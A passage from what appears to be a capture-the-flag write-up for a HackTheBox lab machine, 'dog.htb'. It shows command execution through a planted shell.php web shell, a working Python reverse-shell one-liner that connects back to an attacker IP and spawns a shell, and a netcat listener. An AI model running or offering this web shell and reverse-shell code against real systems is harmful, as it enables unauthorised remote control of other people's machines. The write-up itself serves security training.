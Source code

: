 <figure><img src="../../../.gitbook/assets/image (77).png" alt=""><figcaption></figcaption></figure>

Now search this URL and we get a shell:

```bash
http://dog.htb/modules/shell/shell.php?cmd=id
```

<figure><img src="../../../.gitbook/assets/image (78).png" alt=""><figcaption></figcaption></figure>

Generate a rev shell payload to get reverse shell via terminal.

{% code title="Python3 RevShell" overflow="wrap" %}
```python
export RHOST="10.10.14.108";export RPORT=9009;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```
{% endcode %}

```bash
nc -lnvp 9009
```
